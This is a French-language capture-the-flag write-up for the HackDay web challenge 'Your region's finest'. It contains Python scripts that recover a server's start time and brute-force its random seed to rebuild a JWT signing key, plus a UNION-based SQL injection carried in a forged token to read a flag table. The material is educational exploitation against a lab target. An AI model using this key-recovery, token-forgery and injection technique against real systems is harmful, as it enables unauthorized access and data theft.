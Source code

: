 # Your region's finest

**Web**

You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"

Fichiers : app.py

---

## Inspection du code source

Sur ce challenge, on a la source (!!) du code du serveur. On peut donc inspecter cette source pour trouver des éléments intéressants dedans.

Voici une liste des éléments notables du code source.

### random.seed()

![image](_attachements/Pasted image 20250126200021.png)
La source du random du site est basée sur le moment où le serveur a été démarré ainsi que son PID. C'est une assez mauvaise source d'aléatoire. Si l'on découvre le moment ou le serveur a été démarré, on doit pouvoir reverse l'entièreté de l'aléatoire du site.

### Clé de chiffrement des JWT
![image](_attachements/Pasted image 20250126200351.png)
La clé de chiffrement des JWT est basé sur la source d'aléatoire précédente. Si on arrive a la reverse, on doit pouvoir forger nos propres token.

### ORM
Dans le script, on voit la présence d'un ORM, qui empêche les SQL injection quand il est bien utilisé. Cependant, on voit qu'une requête a été laissée sans protection.
![image](_attachements/Pasted image 20250126200653.png)

On voit qu'on peut injecter des informations dans la requête SQL à l'aide du champ favorite_product_id. En regardant légèrement plus haut, on voit que ce champ provient du JWT. Il faut donc que l'on fasse notre injection via un JWT qu'on aura forgé nous même.

### Timestamp de lancement du serveur
Enfin, la dernière brique se trouve dans la requête de healthcheck.
![image](_attachements/Pasted image 20250126201009.png)
Cette requête nous permet de savoir depuis combien de temps le serveur est en ligne, et donc en soustrayant cette valeur au timestamp auquel on fait la requête, on peut avoir le timestamp de lancement du serveur.

### Prix des produits
Enfin, on peut voir que les prix des items sont générés aléatoirement à l'initialisation du serveur. Cela nous permettra de vérifier de notre seed d'aléatoire est cohérente et de nous épargner le fait de tester la clé des JWT.
![image](_attachements/Pasted image 20250126201517.png)


**Nous avons désormais toutes les briques pour construire notre attaque.**

## L'attaque

Commençons par récupérer le timestamp de lancement du serveur. Pour cela, on écrit le script suivant

```python

import requests  
import time  
import random  
import math  
import string
import base64
  
result = []  
for _ in range(100):  
    timeStart = time.time()  
    url = "http://challenges.hackday.fr:58990/healthz"  
    response = requests.get(url).json()["uptime"]  
    result.append(math.floor(timeStart - response))  
baseTimestamp = min(result) - 30  
# on enlève 30s par sécurité, mieux vaut être trop tôt puisque l'on va  
# tester avec plusieurs PID et qu'ils s'additionnent simplement au  
# timestamp, ils vont donc compenser ce qu'on a enlevé  
```

Ensuite, on peut bruteforcer le PID avec le script suivant :
```python
for pid in range(4194304):  
    random.seed(baseTimestamp + pid)  
    useless = "".join(random.choice(string.printable) for _ in range(32))  
    KEY = "".join(random.choice(string.printable) for _ in range(32))  
    a = random.randrange(10, 100)  
    b = random.randrange(10, 100)  
    c = random.randrange(10, 100)  
    if a == 43 and b == 58 and c == 40:
	    # Ici, les valeurs des prix des 
        print(baseTimestamp, pid)  
        print(KEY)  
        print(str(base64.b64encode(bytes(KEY, "utf-8"))))  
        break
```

On obtiens les valeurs suivantes :
![image](_attachements/Pasted image 20250126211220.png)

On va maintenant étudier la SQL injection : 
On dispose de la requête suivante.
![image](_attachements/Pasted image 20250126212417.png)
On ajoute donc une partie finale pour obtenir cette requête.

```sql
SELECT * FROM product WHERE id = 1 AND 1=2 UNION SELECT id, flag as name, null, null, null, null FROM flag
```

On va ensuite pouvoir faire notre propre cookie avec https://jwt.io. On commence par charger la clé en base64.

On importe notre cookie :
![image](_attachements/Pasted image 20250126212031.png)

On le modifie avec notre SQLi :
![image](_attachements/Pasted image 20250126212149.png)

Il nous suffit ensuite de remettre notre cookie dans le navigateur, et d'aller sur la page `/favorite_product_info`

![image](_attachements/Pasted image 20250126212749.png)

**Flag : HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}**

nhy.